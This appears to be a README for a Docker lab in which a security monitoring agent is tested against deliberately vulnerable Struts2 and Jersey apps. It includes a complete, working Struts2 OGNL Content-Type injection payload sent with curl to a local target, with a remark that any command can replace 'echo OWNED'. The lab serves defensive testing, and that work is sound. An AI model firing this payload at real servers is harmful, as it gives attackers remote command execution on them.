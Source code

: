 
**setup**

0.  install docker and docker-compose


**For the Struts2 Command Injection exploit:**

1.  untar your agent distribution to the `./struts2-exploit/tcell/` directory
2.  copy your tcell_agent.config file to the `./struts2-exploit/tcell/` directory
3.  launch with `docker-compose up struts2-exploit` from this directory.
4.  inject a command with the following `curl` statement.
```bash
curl http://127.0.0.1:8081/struts2-showcase-2.3.12/showcase.action  -H "Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo OWNED').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
**Note**  change `echo OWNED` in the above statement to any command you want.

**For the Jersey Command Injection app:**

1.  untar your agent distribution to the `./jersey/tcell/` directory
2.  copy your tcell_agent.config file to the `./jersey/tcell/` directory
3.  launch with `docker-compose up jersey` from this directory
4.  open `http://localhost:8080/jersey/` in your browser.
